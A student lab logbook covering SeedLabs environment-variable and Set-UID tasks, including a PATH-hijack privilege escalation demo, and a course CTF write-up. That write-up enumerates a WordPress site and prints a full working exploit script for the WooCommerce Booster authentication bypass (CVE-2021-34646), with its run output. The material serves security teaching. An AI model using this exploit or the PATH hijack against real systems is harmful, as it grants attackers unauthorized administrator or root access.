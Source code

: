 # Trabalho realizado na Semana #4

<br>

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   <img src="images/logbook4/task1/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/env.png" alt="Usage of &quot;env&quot;" width="50%" />
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/export.png" alt="Usage of &quot;export&quot;" width="50%" />
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/unset.png" alt="Usage of &quot;unset&quot;" width="50%" />
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

<br>

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff child_env parent_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   <img src="images/logbook4/task2/overview.png" alt="Overview of task 2" width="50%" />
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

<br>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.

1. Compile the `myenv.c` file using `gcc myenv.c`.
2. Execute the program and save its output to a file using `a.out > null_env`.
3. Replace `NULL` with `environ` on the invocation of `execve`.
4. Compile the `myenv.c` file again using `gcc myenv.c`.
5. Execute the program and save its output to a file using `a.out > environ_env`.
6. Compare the changes using `diff null_env environ_env`.

<figure>
   <img src="images/logbook4/task3/overview.png" alt="Overview of task 3" width="50%" />
   <figcaption><strong>Fig 6. </strong>Overview of task 3</figcaption>
</figure>

As we can see, the `environ_env` file - when `environ` was passed to `execve` - has more environment variables
than the `null_env` file - when `NULL` was passed to `execve`. In fact, when `NULL` is passed to `execve`, the
resulting process has no environment variables.

The declaraction of `execve` helps us understand why this is the case.

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The `envp` array is the array of environment variables that will be passed to the resulting process. Therefore,
if we pass `NULL` to it, no environment variables will be passed to the resulting process and, if we pass `environment`,
the calling process' environment variables will be passed to the resulting process.

<br>

## Task 4 : Environment Variables and system()

1. Compile the following program.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
   system("/usr/bin/env");
   return 0 ;
}
```

2. Execute the program.
3. Analyze the result.

<figure>
   <img src="images/logbook4/task4/overview.png" alt="Overview of task 4" width="50%" />
   <figcaption><strong>Fig 7. </strong>Overview of task 4</figcaption>
</figure>

As we can see, the program behaves as if we called `env` directly from our shell, showing us all the process'
environment variables. When using `system`, it's as if we called the function

```c
execl("/bin/sh", "sh", "-c", "/usr/bin/env", (char *) NULL);
```

This function will afterwards call the `execve` function with the process' environment variables and, therefore,
the results will be the same.

<br>

## Task 5 : Environment Variable and Set-UID Programs

1. Compile the following program and name it `penv`.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main() {
   int i = 0;
   while (environ[i] != NULL) {
      printf("%s\n", environ[i]);
      i++;
   }
}
```

2. Make `root` the owner of `penv` using `sudo chown root penv`.
3. Set the `Set-UID` bit in `penv` using `sudo chmod 4755 penv`.

4. Change the current shell's environment variables using

```sh
export PATH=/PWNED:$PATH
export LD_LIBRARY_PATH=/PWNED
export PWNED=YES
```

5. Execute the `penv` program.

<figure>
   <img src="images/logbook4/task5/overview.png" alt="Overview of task 5" width="50%" />
   <figcaption><strong>Fig 8. </strong>Overview of task 5</figcaption>
</figure>

As we can see, both the modified `PATH` and our custom environment variable were passed to the `Set-UID` program.
The `LD_LIBRARY_PATH` environment variable, however, was not passed to the `Set-UID` program.

When a `Set-UID` program is run, the linker determines that the program is running in secure execution mode.
When in secure execution mode, the `LD_LIBRARY_PATH` is ignored to prevent the loading and execution of malicious code
in these programs. 
> Source: https://man7.org/linux/man-pages/man8/ld.so.8.html

For instance, if a hacker had write access to any directory (for instance, `/tmp`), they could compile a library
with a special implementation for a command function (`printf`, for instance). In this implementation, he could call
`system("&lt;command to start a reverse shell&gt;)"` or any other piece of malicious code.

When executing a given `Set-UID` program, the process would execute with the privileges of the program owner amd,
if `LD_LIBRARY_PATH=/tmp` (or the directory the hacker had access to), the linker would load the malicious `printf`
implementation and the system would be compromised. The reverse shell (or any other code in the malicious implementation)
would run as `root`.

<br>

## Task 6 : The PATH Environment Variable and Set-UID Programs

1. Compile the following program and name it `myls`.

```c
#include <stdlib.h>

int main() {
   system("ls");
   return 0;
}
```

2. Make `root` the owner of `myls` using `sudo chown root myls`.
3. Set the `Set-UID` bit in `myls` using `sudo chmod 4755 myls`.

4. Save the following malicious script to a file named `ls`.

```sh
#!/bin/sh
echo "Executing malicious script..."
whoami
```

5. Make `ls` executable using `chmod 755 ls`.
   
6. Add the current working directory, where the script is located, to the start of the `PATH` environment variable, using `export PATH=$PWD:$PATH`

7. Execute the `myls` program.
   
<figure>
   <img src="images/logbook4/task6/overview.png" alt="Overview of task 6" width="50%" />
   <figcaption><strong>Fig 9. </strong>Overview of task 6</figcaption>
</figure>

In this task, we have a `Set-UID` program called `myls` which executes the command `ls`.
Since the provided path is a relative path (it doesn't start with `/`), the `ls` program will be searched in the directories
indicated in the `PATH` environment variable. Once it finds a program called `ls` in one of those directories, the shell will
execute that program.

In this case, it will execute a shell script which prints a message and identifies the effective user name of the process.
Since `myls` is executed as `root` (since `root` is the owner of the file and the `Set-UID` bit is set), its child
processes will also be executed with a `root` as their effective user. This means that the shell script is executed as `root`
as well and that's why `whoami` prints `root`.

> To execute the example successfuly, the `/bin/sh` program needs to be replaced with a shell that doesn't protect itself
> against being executed from `Set-UID` programs, such as `zsh`. To do that, you should execute `sudo ln -sf /bin/zsh /bin/sh`
> before executing any of the commands above.

<br>
<br>
<br>

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.

